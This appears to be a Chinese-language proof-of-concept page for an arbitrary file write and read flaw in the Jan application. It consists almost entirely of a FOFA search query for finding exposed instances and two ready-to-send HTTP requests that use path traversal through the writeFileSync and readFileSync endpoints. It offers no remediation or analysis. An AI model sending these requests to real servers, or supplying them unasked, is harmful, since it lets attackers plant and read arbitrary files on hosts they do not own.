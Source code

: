 ## Jan任意文件上传漏洞

## fofa
```
icon_hash="-165268926"
```


## poc
```
POST /v1/app/writeFileSync HTTP/1.1
Host: {{Host}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://<IP>:<Port>
contentType: application/json
Content-Type: text/plain;charset=UTF-8
Content-Length: 35
Origin: http://<IP>:<Port>
Connection: close

["/../../../../../tmp/a.txt","abc"]


POST /v1/app/readFileSync HTTP/1.1
Host: {{Host}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://<IP>:<Port>
contentType: application/json
Content-Type: text/plain;charset=UTF-8
Content-Length: 48
Origin: http://<IP>:<Port>
Connection: close

["file:/../../../../../tmp/a.txt","utf-8"]
```
![image](https://github.com/wy876/POC/assets/139549762/0558b716-4096-4789-a8cb-2bcebab4a009)

![image](https://github.com/wy876/POC/assets/139549762/a6bb5774-5e79-4b2a-86a7-e2a60b333fa9)


